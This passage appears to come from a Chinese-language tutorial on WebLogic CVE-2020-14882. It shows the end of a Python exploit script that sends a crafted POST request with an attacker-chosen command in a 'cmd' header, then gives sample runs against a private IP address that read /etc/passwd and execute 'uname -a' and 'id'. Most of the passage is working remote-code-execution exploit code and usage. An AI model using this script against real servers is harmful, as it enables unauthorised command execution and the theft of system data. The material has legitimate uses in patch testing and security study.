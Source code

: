 ```python linenums="1"
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

执行脚本即可自动构造 POST 请求，利用 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令：

```bash
python 14882-exp.py -u http://192.168.10.10:7001 -c "cat /etc/passwd"
python 14882-exp.py -u http://192.168.10.10:7001 -c "uname -a"
python 14882-exp.py -u http://192.168.10.10:7001 -c "id"
```
